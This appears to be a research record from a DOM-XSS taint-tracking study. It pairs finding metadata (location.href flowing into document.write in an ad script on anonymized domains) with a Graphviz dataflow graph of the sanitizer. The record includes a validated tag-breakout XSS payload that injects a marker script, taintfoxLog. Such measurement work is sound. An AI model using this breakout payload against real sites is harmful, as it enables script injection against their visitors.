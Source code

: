 // Finding: 7fe6ef6c-55fa-4855-b6a1-a9e03b76e9fc
// Finding.url: https://www.example261.com/project-management-tutorial.html
// Finding.parentloc: https://www.example261.com/project-management-tutorial.html##'></iframe></style></script></object></embed></textarea><script>taintfoxLog('a3ac938654b44df6bf46e6a3b89495ae')</script><!--/*
// Finding.domain: www.example261.com
// Finding.base_domain: example261.com
// Finding.source: location.href
// Finding.sink: document.write
// Sanitizer.score: 1
// Sanitizer.name: SekindoClientDetections_URL/this.setInfo
// Sanitizer.location: https://live.example5.com/live/liveView.php?s=99260&cbuster=775414824&pubUrl=https://www.example261.com/project-management-tutorial.html%23%23%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%27a3ac938654b44df6bf46e6a3b89495ae%27)%3C/script%3E%3C!--/*&subId=[SUBID_ENCODED]&x=728&y=90 - SekindoClientDetections_URL/this.setInfo:621:7
// Finding.begin: 384
// Finding.end: 453
// Finding.original_uuid: 1ca512a4-ea2b-4bc6-869f-ec7f66829ea6
// Finding.TwentyFiveMillionFlowsId: -816411276
// Finding.script: https://live.example5.com/live/liveView.php?s=99260&cbuster=775414824&pubUrl=https://www.example261.com/project-management-tutorial.html%23%23%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%27a3ac938654b44df6bf46e6a3b89495ae%27)%3C/script%3E%3C!--/*&subId=[SUBID_ENCODED]&x=728&y=90
// Finding.line: 915
// Exploit.uuid: a3ac9386-54b4-4df6-bf46-e6a3b89495ae
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: '
// Exploit.tag: script
// Exploit.break_out: #'></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: #'></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 55
// Exploit.replace_begin_url: 55
// Exploit.replace_end_url: 55
// Exploit.replace_begin_param: 274
// Exploit.replace_end_param: 274
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -59434439
// DepGraph.sanitizer_hash: 763613392

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="encodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="."];
n4 [shape=box, label="Lit: &pubUrlAuto="];
n5 [shape=ellipse, label="."];
n6 [shape=box, label="Lit: https://live.example5.com/live/liveView.php?s=99260&cbuster=775....3E%3C!--/*&subId=[SUBID_ENCODED]&x=728&y=90&cbuster=1619707311"];
n7 [shape=ellipse, label="str_replace_once"];
n8 [shape=box, label="Lit: SEKXLEN"];
n9 [shape=box, label="Lit: 728"];
n10 [shape=box, label="Var: x"];
n11 [shape=ellipse, label="str_replace_once"];
n12 [shape=box, label="Lit: SEKYLEN"];
n13 [shape=box, label="Lit: 90"];
n14 [shape=box, label="Var: x"];
n15 [shape=ellipse, label="str_replace_once"];
n16 [shape=box, label="Lit: '"];
n17 [shape=box, label="Lit: %27"];
n18 [shape=box, label="Var: x"];
n19 [shape=ellipse, label="str_replace_once"];
n20 [shape=box, label="Lit: /liveView.php"];
n21 [shape=box, label="Lit: /prebid-ads.php"];
n22 [shape=box, label="Var: x"];
n23 [shape=ellipse, label="."];
n24 [shape=box, label="Lit: &csuuid=608ac5afd4bce"];
n25 [shape=ellipse, label="."];
n26 [shape=box, label="Lit: &videoType=flow&floatWidth=400&floatHeight=225&floatDirection=....0&floatCloseBtn=1&flowMode=below&flowCloseButtonPosition=right"];
n27 [shape=box, label="Var: x"];
n28 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n3 -> n4;
n3 -> n1;
n5 -> n6;
n5 -> n3;
n10 -> n5;
n7 -> n8;
n7 -> n9;
n7 -> n10;
n14 -> n7;
n11 -> n12;
n11 -> n13;
n11 -> n14;
n18 -> n11;
n15 -> n16;
n15 -> n17;
n15 -> n18;
n22 -> n15;
n19 -> n20;
n19 -> n21;
n19 -> n22;
n23 -> n19;
n23 -> n24;
n25 -> n23;
n25 -> n26;
n27 -> n25;
n28 -> n27;
}